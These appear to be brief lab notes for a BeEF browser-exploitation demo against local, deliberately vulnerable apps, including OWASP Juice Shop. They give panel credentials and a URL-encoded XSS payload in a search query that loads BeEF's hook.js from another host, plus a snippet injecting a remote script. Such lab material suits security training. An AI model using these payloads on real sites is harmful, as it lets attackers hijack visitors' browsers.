 # 
## BeEF panel
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel)
- user: beefadmin
- password: difficultpassword

## auto exploit (simple form)

[http://vulnerable.local:3000/demos/basic.html](http://vulnerable.local:3000/demos/basic.html)

## manual exploit (Juice Shop)

[http://vulnerable.local:3500/#/search?q=%3Cimg%20width%3D0%20height%3D0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple](http://vulnerable.local:3500/#/search?q=%3Cimg%20width%3D0%20height%3D0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple)

```
var b = document.createElement('script');
b.type = 'text/javascript';
b.src = 'http://localhost:8088/shake.js';
document.body.appendChild(b);
```
